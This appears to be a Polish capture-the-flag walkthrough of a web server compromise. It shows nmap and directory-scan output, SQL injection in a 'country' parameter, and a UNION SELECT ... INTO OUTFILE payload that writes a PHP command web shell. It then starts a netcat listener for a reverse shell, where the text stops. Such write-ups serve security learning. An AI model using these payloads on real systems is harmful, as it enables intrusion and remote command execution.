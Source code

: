 Pierwszym krokiem jaki musimy poczynić będzie to skanowanie serwera za pomocą nmap. Możemy tutaj znaleźć ciekawe porty.
```
22/tcp   open     ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http          Apache httpd 2.4.48 ((Debian))
5000/tcp filtered upnp
5001/tcp filtered commplex-link
5002/tcp filtered rfe
5003/tcp filtered filemaker
5004/tcp filtered avt-profile-1
8080/tcp open     http          nginx
```
Również zrobiłem skanowanie katalogów, ale kompletnie nic ciekawego nie udało mi się znaleźć.
```
                        [Status: 200, Size: 16088, Words: 4698, Lines: 269, Duration: 141ms]
.hta                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 3851ms]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 3851ms]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 3865ms]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 151ms]
index.php               [Status: 200, Size: 16088, Words: 4698, Lines: 269, Duration: 139ms]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 134ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 161ms]
```
Udałem się na stronę, widniała tam ciekawa funkcja, odpaliłem burp aby prześledzić ruch. Pierwsze o czym pomyślałem, że może być tutaj podatność SQLi, najpierw przetestowałem parametr username= ale nic kompletnie tam nie udało mi się wstrzyknąć, następnie przetestowałem country= i tam już zaczeły się dziać rzeczy. Pierw przetestowałem jak działa komentowanie, jaki język sql działa na tym serwerze polecam w tym przypadku portswigger, posiada fajny cheat sheet.``` ' union select 1, '-- - ``` Przetestowałem ten parametr, i otrzymałem ciekawy błąd.
```
</b>:  Uncaught Error: Call to a member function fetch_assoc() on bool in /var/www/html/account.php:33
Stack trace:
#0 {main}
  thrown in <b>/var/www/html/account.php</b> on line <b>33</b>
```
Pierwsze co pomyslałem aby spróbować zrobić z tego RCE. 
Znalazłem ciekawy artykuł
```
https://null-byte.wonderhowto.com/how-to/use-sql-injection-run-os-commands-get-shell-0191405/
```
I znajdował się tam ciekawy ładunek, który postanowiłem wstrzyknąć. Tylko musimy tam trochę pozmieniać aby wszystko działało.
```
' union select 1, '<?php system($_GET["cmd"]); ?>' into outfile '/var/www/dvwa/cmd.php' #
```
Musimy pamiętać aby podmienić ścieżkę oraz komentarz. Udało mi się wstrzyknąć polecenie whoami, wiem, że polecenia wykonuje użytkownik www-data.
Następnie spróbujemy wstrzyknąć reverse-shell aby otrzymać powłokę, pierwszym krokiem będzie włączenie netcat aby nasłuchiwał na wybranym porcie.
``` nc -lvnp 9001```
